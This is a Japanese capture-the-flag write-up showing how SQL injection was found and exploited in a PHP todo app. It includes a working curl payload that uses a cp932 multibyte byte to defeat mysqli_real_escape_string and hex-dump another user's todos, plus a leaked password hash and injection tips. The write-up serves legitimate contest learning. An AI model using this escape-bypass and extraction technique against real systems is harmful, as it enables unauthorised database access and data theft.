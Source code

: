 次に、入力箇所を探す。
`$userID`からのinjectionは`preg_match('/[^a-zA-Z0-9]/', $userId)`といった確認が入るのでだめ。
`$password`は`$password = hash_hmac('sha512', $password, YAMATODO_SALT);`と処理されるのでこれもだめ。
残るはlogin後の`$body`で、これはinjectionできる。

``` php
$sql = sprintf("insert into todos (`user_id`, `body`, `create_at`) values ('%s', '%s', NOW())",
    mysqli_real_escape_string($link, $_SESSION['user_id']),
    mysqli_real_escape_string($link, $body)
);
mysqli_query($link, $sql);
```

という形で入る。


とりあえず適当にregisterしてloginする。短い名前にしておく楽。

``` sh
# user_id: N
$ python -c 'print(ord("N"))'
78
$ PHPSESSID=$(ブラウザからこぴぺ)
```

``` sh
$ python -c 'print(*map(ord,"yamato"))'
121 97 109 97 116 111
```

いんじぇくと☆（ゝω・）v

``` sh
$ sql=%95$(urlencode \\\'', now()), (concat(char(78)), (select hex(body) from todos as t where user_id = concat(char(121),char(97),char(109),char(97),char(116),char(111)) limit 1 offset 0), now()); # ')
$ curl --dump-header - 'http://210.146.64.44/?ie=cp932' -H 'Cookie: PHPSESSID='$PHPSESSID -H 'Authorization: Basic eWFtYXRvY3RmOkdVbjdTbjFMVkpRWkJ3eUc4d1pQQUl0bm9CWjA0VGx4' --data body=$sql
```

`offset 0`の部分をincrementしながら全部出力させる。

`flag = mkafh98hwaofnaslh08y4830fjioafnlka`とあるが、これを投げても通らない。これはもしかしたら他の参加者が勝手に追加したものなのかもしれない。
`Yo! check the first todo☆（ゝω・）v`とあるので、1番目のtodoを見る。
文字化けしているが、これをeucjpで見ると、`半角でサブミットしてください☆（ゝω・）v ｆｌａｇ＝｛ｒ３ｍ３Ｍｂ３ｒ＿５ｃ＿ｐｒ０ｂＬ３ｍ｝`。
`r3m3Mb3r_5c_pr0bL3m`。

### 試行錯誤の結果得られた知見

-   mysqlの行コメント`-- `は後ろに空白が必須。
-   `mysqli_query`は複文が使えない。
-   `insert into TABLE (COL,COL,COL) values (VAL,VAL,VAL), (VAL,VAL,VAL);`とすれば、複数同時に挿入できる。
    -   mysqlは無設定だと文字列連結演算子がないので、これを使わないと文字列の挿入ができない。
-   hmacのsaltを復元しようとしても無理。
    -   yamatoの暗号化済みpasswordは`8c8f0144c4290bf5e4afa6ebe67597484935e6af3c7f3610bffb3b4782fb8f420ec30c21467b58dcc0023749225e9aa1ea938b2d73391ca5a30b5c19f1e2af53`。
    -   `hashcat`などを試してみたが、どうみても終わりそうにない。
-   injection中のsub queryから`todos`を直接見れない。
    -   `ERROR 1093 (HY000): Table 'todos' is specified twice, both as a target for 'INSERT' and as a separate source for data`
        -   循環してるからどうにかして、ということ。
        -   自己結合`from TABLE as XXXX`を使えば回避できる。
    -   `todos`と`users`が非対称だったのですごく悩んだ。
        -   手元に実行環境作って試すのはすごく重要。


[^1]: かなり偶然上手くいっただけっぽい。